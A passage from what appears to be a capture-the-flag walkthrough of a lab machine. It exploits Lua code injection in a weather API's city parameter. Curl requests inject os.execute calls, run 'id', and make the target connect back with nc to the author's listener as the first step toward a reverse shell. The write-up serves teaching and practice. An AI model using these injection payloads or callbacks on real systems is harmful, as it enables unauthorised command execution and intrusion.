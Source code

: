 

    oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city='"
    <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value



If I add a closing parens and then a comment, it will actually send back
the payload cut off in the middle:



    oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city=')+--"
    {"code": 500,"error": "unknown city:



This suggests that the string is being built in that command, and the
comment took out the part that handles the closing `"` and `}`.

### Injection POC

To run a command from Lua,
[GTFObins](https://gtfobins.github.io/gtfobins/lua/#sudo) shows it's
just `os.execute("[command]")`. Adding that works:



    oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city=')+os.execute('id')+--"
    {"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd



To do a more complex payload, I'll switch to letting `curl` encode my
arg for me:



    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('id') --" 'http://10.10.10.218/weather/forecast' -s 
    {"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)



`-G` will force a GET commands, and use the data from `--data-urlencode`
in the url instead of in the body.

### Shell

Because the box is BSD, some typical Linux reverse shells won't work.
I'll start small. Can `nc` connect back to me?



    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('nc 10.10.14.11 443') --" 'http://10.10.10.218/weather/forecast' -s



At my listener there's a connection:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.218] 654
